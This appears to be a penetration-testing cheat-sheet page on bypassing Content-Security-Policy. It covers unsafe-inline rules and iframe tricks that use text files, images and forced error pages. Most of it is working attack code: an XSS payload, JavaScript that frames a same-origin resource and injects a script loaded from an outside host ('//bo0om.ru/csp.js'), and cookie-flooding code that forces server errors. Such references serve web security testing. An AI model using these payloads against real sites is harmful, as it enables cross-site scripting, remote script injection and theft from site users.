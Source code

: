 # CSP Bypass

## Unsafe CSP Rules
**'unsafe-inline'**
```html
Content-Security-Policy: script-src https://google.com 'unsafe-inline'; 
```
Working payload:
```javascript
"/><script>alert(1);</script>
```
-----
**self + 'unsafe-inline' via Iframes**

A configuration such as:
```html
Content-Security-Policy: default-src ‘self’ ‘unsafe-inline’;
```
Prohibits usage of any functions that execute code transmitted as a string. For example: eval, setTimeout, setInterval will all be blocked because of the setting unsafe-eval

Any content from external sources is also blocked, including images, CSS, WebSockets, and, especially, JS

* **Via text & images**
Modern browsers transform images and texts into HTML files to visualize them better (set background, center, etc).

Therefore, if you open an image or txt file such as `favicon.ico` or `robots.txt` with an **iframe**, you will open it as HTML.

These kinds of pages usually don't have **CSP headers** and might not have `X-Frame-Options`, so you can execute arbitrary **JS** from them:

```javascript
frame=document.createElement("iframe");
frame.src="/css/bootstrap.min.css";
document.body.appendChild(frame);
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```
* **Via Errors**
Same as text files or images, error responses usually don't have **CSP headers** and might not have `X-Frame-Options`. So, you can force errors and load them inside an iframe:

```javascript
// Force nginx error
frame=document.createElement("iframe");
frame.src="/%2e%2e%2f";
document.body.appendChild(frame);

// Force error via long URL
frame=document.createElement("iframe");
frame.src="/"+"A".repeat(20000);
document.body.appendChild(frame);

// Force error via long cookies
for(var i=0;i<5;i++){document.cookie=i+"="+"a".repeat(4000)};
frame=document.createElement("iframe");
frame.src="/";
document.body.appendChild(frame);
// Don't forget to remove them
for(var i=0;i<5;i++){document.cookie=i+"="}
```
```javascript
```